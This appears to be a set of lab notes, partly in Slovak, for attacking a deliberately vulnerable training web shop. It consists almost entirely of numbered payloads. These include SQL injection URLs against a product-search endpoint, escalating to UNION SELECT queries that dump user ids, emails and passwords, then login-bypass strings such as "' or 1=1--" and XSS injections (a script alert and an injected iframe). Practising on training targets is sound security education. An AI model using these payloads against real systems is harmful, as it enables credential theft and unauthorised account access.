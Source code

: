 ## Open Firefox browser 
6. 
``` 
http://labs.training.local/rest/products/search?q= 
```
7. 
``` 
http://labs.training.local/rest/products/search?q=test’-- 
```
8. 
``` 
http://labs.training.local/rest/products/search?q=test’)) -- 
```
10. 
``` 
http://labs.training.local/rest/products/search?q=test’)) UNION SELECT * FROM Users --

http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4' FROM Users --
``` 
11. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users --
``` 
12. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users --
``` 
14. 
```
admin@juice-sh.op'--
```
15.
```
' or 1=1-- 
```

# Útok so zneužitím XSS
4. 
```
<script>alert(`xss`)</script> 
```
5. 
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 
```

